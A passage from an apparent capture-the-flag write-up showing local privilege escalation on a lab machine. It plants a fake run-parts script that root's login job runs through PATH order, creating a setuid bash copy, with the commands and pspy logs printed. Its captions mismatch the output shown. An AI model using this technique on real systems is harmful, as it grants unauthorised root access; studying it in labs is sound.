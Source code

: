 ```bash
jkr@writeup:~$ echo '#!/bin/sh' > /usr/local/sbin/run-parts
jkr@writeup:~$ echo 'cp /bin/bash /tmp/twig && chmod u+s /tmp/twig' >> /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```

This worked:

```bash
jkr@writeup:~$ /tmp/twig
-bash: /tmp/twig: Permission denied
jkr@writeup:~$ ls -la /tmp/
total 4420
drwxrwxrwt  4 root root    4096 Jul 15 17:36 .
drwxr-xr-x 22 root root    4096 Apr 19  2019 ..
-rwxr-xr-x  1 jkr  jkr   325084 Feb 11 10:48 linpeas.sh
-rwxr-xr-x  1 jkr  jkr  3078592 Jun 20  2020 pspy64
-rwSr--r--  1 root root 1099016 Jul 15 17:36 twig
drwx------  2 root root    4096 Jul 15 15:09 vmware-root
drwx------  2 root root    4096 Jul 15 15:09 vmware-root_1452-2731021070
jkr@writeup:~$ ls -la /tmp/twig
-rwSr--r-- 1 root root 1099016 Jul 15 17:36 /tmp/twig
```

But it wasn't executable:

```bash
jkr@writeup:~$ /tmp/twig
twig-4.4$ whoami
jkr
twig-4.4$ 
```

We can see it working in pspy which is cool:

```bash
2021/07/15 17:37:29 CMD: UID=0    PID=12918  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 17:37:29 CMD: UID=0    PID=12919  | cp /bin/bash /tmp/twig 
2021/07/15 17:37:29 CMD: UID=0    PID=12920  | chmod u+s /tmp/twig 
2021/07/15 17:37:29 CMD: UID=0    PID=12921  | /bin/sh /usr/local/sbin/run-parts --lsbsysinit /etc/update-motd.d 
2021/07/15 17:37:29 CMD: UID=0    PID=12922  | sshd: jkr [priv]  
2021/07/15 17:37:29 CMD: UID=1000 PID=12923  | -bash 
2021/07/15 17:37:29 CMD: UID=1000 PID=12924  | -bash 
2021/07/15 17:37:29 CMD: UID=1000 PID=12925  | -bash 
2021/07/15 17:37:29 CMD: UID=1000 PID=12926  | -bash 
2021/07/15 17:37:29 CMD: UID=1000 PID=12927  | -bash 
2021/07/15 17:37:34 CMD: UID=1000 PID=12928  | -bash 
2021/07/15 17:37:36 CMD: UID=1000 PID=12929  | /tmp/twig 
2021/07/15 17:38:01 CMD: UID=0    PID=12930  | /usr/sbin/CRON 
2021/07/15 17:38:01 CMD: UID=0    PID=12931  | /usr/sbin/CRON 
2021/07/15 17:38:01 CMD: UID=0    PID=12932  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```
